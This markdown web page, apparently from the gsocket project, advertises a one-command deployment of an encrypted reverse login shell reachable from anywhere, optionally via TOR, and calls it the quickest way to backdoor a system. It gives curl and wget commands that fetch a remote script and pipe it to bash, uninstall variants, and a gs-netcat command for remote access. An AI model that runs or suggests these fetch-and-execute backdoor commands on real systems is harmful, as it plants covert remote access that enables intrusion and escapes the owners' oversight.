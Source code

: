 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a single command line (fully automated) - and access the shell remotely - and via TOR if you like. Encrypted.

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
---
{:refdef: style="text-align: center;"}
EXAMPLE
{: refdef}
Install
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Check out our [GitHub Page](https://github.com/hackerschoice/gsocket) for more fun.  

Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

